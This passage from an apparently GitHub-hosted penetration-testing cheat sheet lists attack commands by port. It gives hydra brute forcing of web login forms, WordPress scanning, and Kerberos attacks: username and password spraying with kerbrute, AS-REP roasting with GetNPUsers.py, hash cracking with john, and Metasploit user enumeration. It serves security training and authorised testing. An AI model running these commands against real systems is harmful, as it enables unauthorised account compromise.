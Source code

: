 #### Wordpress
```
wpscan --url <TARGET_SITE>
```

Brute force a web portal login page and filter out the pages that contain the message presented when a login is unsuccessful
```
hydra -l <USERNAME> -P <PASSWORD_LIST> <IP_ADDRESS> http-post-form "<URL>:username=^USER^&password=^PASS^&Login=Login:<FAILED_LOGIN_MESSAGE>"
```

<br />

## Port 88 - Kerberos

[Kerberos cheatsheet](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)

Kerberos bruteforce usernames and passwords to enumerate valid Active Directory accounts through Kerberos Pre-Authentication.  When an invalid username is requested the server will respond using the Kerberos error code KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN, allowing us to determine that the user name was invalid. Valid user names will illicit either the TGT in a AS-REP response or the error KRB5KDC_ERR_PREAUTH_REQUIRED, signaling that the user is required to perform pre authentication:
```
python kerbrute.py -domain <DOMAIN> -dc-ip <IP_ADDR> -users <USER_FILE> -passwords /usr/share/wordlists/rockyou.txt -outputfile passwords.txt
```
If any of the users return '[NOT PREAUTH]', harvest the non-preauth AS_REP responses by sending an AS_REQ request to the KDC on behalf of the user:
```
python GetNPUsers.py <DOMAIN>/ -dc-ip <IP_ADDR> -usersfile <USER_FILE> -format john -outputfile hashes.txt
```
If we get a TGT, we can decrypt the user's password hash used to encrypt the session key:
```
john --format:krb5asrep --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

nmap script to enumerate users:
```
nmap -Pn -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=’<domain>’,userdb=users.txt <IP_ADDRESS>
```
Metasploit bruteforce users
```
msf > use Auxiliary/gather/Kerberos_enumusers
set DOMAIN <DOMAIN>
set RHOSTS <IP_ADDRESS>
set USER_FILE <USERS_FILE>
```

<br/> 

## Port 110 - POP3

